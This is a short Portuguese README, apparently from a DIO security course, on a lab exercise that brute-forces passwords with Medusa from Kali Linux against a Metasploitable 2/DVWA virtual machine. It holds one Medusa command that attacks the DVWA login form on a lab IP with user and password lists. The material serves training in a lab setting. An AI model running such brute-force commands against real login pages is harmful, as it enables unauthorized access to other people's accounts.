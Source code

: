 # Brute-Force-de-Senhas-com-Medusa-e-Kali-Linux
Curso DIO de segurança

============================================================================================

Plataforma de Virtualização:

Virtual tual BOX

============================================================================================
Sistema SO utilizados:

Kali Linux VirtualBox;

metasploitable-linux-2.0.0.


Exemplo de Utilização da Ferramenta Meduza;

Linha de comando:
medusa -h 192.168.56.102 -U user.txt -P pass.txt -M http \
-m page:'/dvwa/login.php' \
-m form:'username=^USER^&password=^pass^&login=login'\
-m 'FAIL=login failed' -t 6








